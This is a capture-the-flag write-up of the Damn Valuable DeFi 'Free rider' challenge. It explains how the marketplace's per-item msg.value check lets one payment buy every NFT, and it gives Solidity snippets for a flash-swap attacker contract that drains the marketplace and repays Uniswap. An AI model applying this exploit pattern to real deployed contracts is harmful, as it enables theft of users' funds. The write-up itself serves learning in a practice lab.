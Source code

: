 ## Free rider

### Challenge description

> A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.
>
> A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.
>
> You want to build some rep with this buyer, so you've agreed with the plan.
>
> Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant. 

### Solution

The FreeRiderNFTMarketplace contract has a vulnerability in `_buyOne()` where `msg.value` is checked and compared to the price of the NFTs which we want to bulk buy through `buyMany()`. However, the comparison is *individually* made for *each* NFT we try to purchase with `buyMany()`. This opens up the possibility of buying *all* NFTs we order for the price of the *highest* one alone, making all others free. 

In this case, we can exploit this by sending 15 ether, which ends up covering for *all* of them (as opposed to 15 * 6 = 90 ether), thereby netting us +75 ether.

To exploit this, we first need to code a contract, as it's the only way to take the flash loan from uniswap.

The attacker contract should have a function which calls the `swap()` function and routes its internal `uniswapV2Call()` call to a function inside of our contract, so we must override the `uniswapV2Call()` function imported from the IUniswapV2Callee interface.

In my case, since we only need WETH, I made the `flashSwap()` function only take amounts of WETH in count:

```solidity
function flashSwap(uint256 _amount) external {
    // we want to specifically borrow weth
    uint256 amount0 = pair.token0() == weth ? _amount : 0;
    uint256 amount1 = pair.token1() == weth ? _amount : 0;
    
    // encoded data for `swap` to understand it's a flashloan and not just a swap
    bytes memory data = abi.encode(weth, _amount);
    pair.swap(amount0, amount1, address(this), data);
}
```

Then within the `uniswapV2Call()` function we have already received the tokens, so we can now do stuff with them, in this case, the first thing we need to do is convert the WETH to ETH, as the marketplace only accepts ETH:

```solidity
IERC20(weth).approve(weth, type(uint256).max);
weth.functionCall(abi.encodeWithSignature("withdraw(uint256)", amount));
```

All we need to take is 15 ether, as it's all needed to take all the NFTs from the marketplace.

After withdrawing the ether, I create an array of integers with all the token IDs for the NFTs we want to buy. I defined this function to generate a dynamic array of integers with values from 0 to `size`:

```solidity
function arrayOfIntegers(uint256 size) private returns (uint256[] memory) {
    uint256[] memory uintArray = new uint256[](size);
    for (uint256 i = 0; i < size; i++) {
        uintArray[i] = i;
    }
    return uintArray;
}
```

I'm sure there's much better ways to do this, but here we are. Anyway, With this function I generate the array:

```solidity
uint256 amountOfOffers = marketplace.amountOfOffers();
uint256[] memory tokenIdsArray = arrayOfIntegers(amountOfOffers);
```

Which must be passed to the marketplace's `buyMany()` function along with the 15 ether:

```solidity
marketplace.buyMany{value: amount}(tokenIdsArray);
```

Then the NFTs must be transferred to the buyer, so we loop over token IDs and perform a `safeTransferFrom()`, I coded a short function for this to keep `uniswapV2Call()` cleaner:

```solidity
function bulkSafeTransferNFT(uint256[] memory tokenIds) private {
    for (uint256 i = 0; i < tokenIds.length; i++) {
        nft.safeTransferFrom(address(this), address(buyer), tokenIds[i]);
    }
}
```

Then I call this function to send the corresponding purchased tokens to the buyer, so the attacker can get the payment for them:

```solidity
bulkSafeTransferNFT(tokenIdsArray);
```

Then the amount to repay has to be computed, as there's a 0.3% fee on top of the loan taken from Uniswap:

```solidity
uint256 amountToRepay = amount + (((amount*3)/997)+1);
```

Then the loan can be repayed depositing the ETH to get WETH and transferring the WETH back into the pair address:

```solidity
weth.functionCallWithValue(abi.encodeWithSignature("deposit()"), amountToRepay);
IERC20(weth).transfer(address(pair), amountToRepay);
```

Then finally I call a `recoverETH()` function I coded into the contract to obtain the net profits from the marketplace exploit:

```solidity
function recoverETH() external {
    owner.sendValue(address(this).balance);
}
```

Where `owner` is the attacker address.

It's important to note that there should be a `onERC721Received()` function which allows the contract to receive the NFTs through the marketplace's safe transfer call.

Also, the contract needs to have a fallback function to receive Ether, as the marketplace will forward some when the purchases are made.
